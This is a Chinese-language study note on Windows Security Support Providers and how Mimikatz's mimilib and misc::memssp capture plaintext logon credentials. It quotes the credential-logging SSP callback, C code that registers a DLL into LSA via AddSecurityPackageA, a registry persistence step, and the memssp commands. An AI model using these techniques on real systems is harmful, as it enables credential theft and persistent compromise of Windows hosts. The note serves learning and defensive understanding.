

学习了以下文章，整理SSP相关笔记:

[Mimikatz中SSP的使用](https://3gstudent.github.io/3gstudent.github.io/Mimikatz%E4%B8%ADSSP%E7%9A%84%E4%BD%BF%E7%94%A8/)

[深入分析Mimikatz：SSP](https://www.anquanke.com/post/id/180001#h2-1)

[Exploring Mimikatz - Part 2 - SSP](https://blog.xpnsec.com/exploring-mimikatz-part-2/)


## SSPI&SSP



- SSPI(Security Support Provider Interface)

这是 Windows 定义的一套接口，此接口定义了与安全有关的功能函数， 用来获得验证、信息完整性、信息隐私等安全功能，就是定义了一套接口函数用来身份验证，签名等，但是没有具体的实现。

- SSP(Security Support Provider)

 SSPI 的实现者，对SSPI相关功能函数的具体实现。微软自己实现了如下的 SSP，用于提供安全功能：

1. NTLM SSP: msv1_0.dll
2. Kerberos: kerberos.dll
3. Cred SSP
4. Digest SSP
5. Negotiate SSP
6. Schannel SSP
7. Negotiate Extensions SSP
8. PKU2U SSP

在系统层面，SSP就是一个dll，来实现身份验证等安全功能，实现的身份验证机制是不一样的。比如 NTLM SSP 实现的就是一种 Challenge/Response 验证机制。而 Kerberos 实现的就是基于 ticket 的身份验证机制。我们可以编写自己的 SSP，然后注册到操作系统中，让操作系统支持更多的自定义的身份验证方法。


## SSP的实现-mimilib

mimikatz中的[mimilib](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/mimilib.def)可以作为一个SSP来使用，mimilib通过模块定义文件.def声明了一堆导出函数，其中就有`SpLsaModeInitialize`。

```
SpLsaModeInitialize		=	kssp_SpLsaModeInitialize
```

`SpLsaModeInitialize`是SSP的初始化函数，由LSA加载自己时调用。`SpLsaModeInitialize`的主要功能是给参数*ppTables*赋值，用于告诉LSA各个回调函数的地址；*ppTables* 指向[SECPKG_FUNCTION_TABLE](https://docs.microsoft.com/en-us/windows/win32/api/ntsecpkg/ns-ntsecpkg-secpkg_function_table)结构体，LSA需要SSP实现的函数指针都包含在此结构体内。


mimilib SSP就实现了`SpLsaModeInitialize`及以下4个回调函数，相关实现都在[kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c)

```
SpInitialize：用来初始化SSP，提供一个函数指针列表。
SpShutDown：卸载SSP时就会被调用，以便释放资源。
SpGetInfoFn：提供SSP相关信息，包括版本、名称以及描述。
SpAcceptCredentials：接收LSA传递的明文凭据，以便SSP缓存。
```

可以看到 kssp_SpAcceptCredentials 内部实现就是将获取到的明文凭据写到kiwissp.log中，认证结果直接访问Success。

```
NTSTATUS NTAPI kssp_SpAcceptCredentials(SECURITY_LOGON_TYPE LogonType, PUNICODE_STRING AccountName, PSECPKG_PRIMARY_CRED PrimaryCredentials, PSECPKG_SUPPLEMENTAL_CRED SupplementalCredentials)
{
	FILE *kssp_logfile;
#pragma warning(push)
#pragma warning(disable:4996)
	if(kssp_logfile = _wfopen(L"kiwissp.log", L"a"))
#pragma warning(pop)
	{	
		klog(kssp_logfile, L"[%08x:%08x] [%08x] %wZ\\%wZ (%wZ)\t", PrimaryCredentials->LogonId.HighPart, PrimaryCredentials->LogonId.LowPart, LogonType, &PrimaryCredentials->DomainName, &PrimaryCredentials->DownlevelName, AccountName);
		klog_password(kssp_logfile, &PrimaryCredentials->Password);
		klog(kssp_logfile, L"\n");
		fclose(kssp_logfile);
	}
	return STATUS_SUCCESS;
}
```


## 操作SSP

### 遍历 

**EnumerateSecurityPackagesA**

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")

int main(int argc, char **argv) {
	ULONG packageCount = 0;
	PSecPkgInfoA packages;

	if (EnumerateSecurityPackagesA(&packageCount, &packages) == SEC_E_OK) {
		for (int i = 0; i < packageCount; i++) {
			printf("Name: %s\nComment: %s\n\n", packages[i].Name, packages[i].Comment);
		}
	}
}
```


### 注册

方法1: 添加注册表后重启生效

在`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa\Security Packages`中加入`mimilib.dll`的路径

不需要将mimilib.dll拷贝到system32目录下，路径中不包含空格就可以


方法2: 调用AddSecurityPackage

这种方法立即能生效，但为了驻留还是需要添加上述注册表，以防重启后失效。Empire中的Install-SSP.ps1就实现了这一过程。

```
#define SECURITY_WIN32

#include <stdio.h>
#include <Windows.h>
#include <Security.h>
#pragma comment(lib,"Secur32.lib")


int main(int argc, char **argv) {
	SECURITY_PACKAGE_OPTIONS option;
	option.Size = sizeof(option);
	option.Flags = 0;
	option.Type = SECPKG_OPTIONS_TYPE_LSA;
	option.SignatureSize = 0;
	option.Signature = NULL;
	SECURITY_STATUS SEC_ENTRYnRet = AddSecurityPackageA(argv[1], &option);
	printf("AddSecurityPackage return with 0x%X\n", SEC_ENTRYnRet);
}
```

注: `DeleteSecurityPackageA`删除SSP不起作用，可用3gStudent的[FreeDll](https://github.com/3gstudent/Homework-of-C-Language/blob/master/FreeDll.cpp)卸载mimilib.dll，见[FreeDll_x64.exe](tools\FreeDll_x64.exe) 


方法3: RPC通知lsass加载SSP

没太看懂，POC没编译成功，大概原理是AddSecurityPackage的内部实现也是通过RPC调用，所以XPN使用了这个方法


## misc::memssp

这种方法也可以dump 明文凭据，原理是hook msv1_0.dll`的`SpAcceptCredentials函数，将凭据写入mimilsa.log中。

这种方式下，hook代码通过WriteProcessMemory被拷贝到`lsass`中，对lsass进程做写操作容易被检测到；相比添加SSP的方法，不需要dll落地，不需要添加注册表；

```
privilege::debug
misc::memssp
```


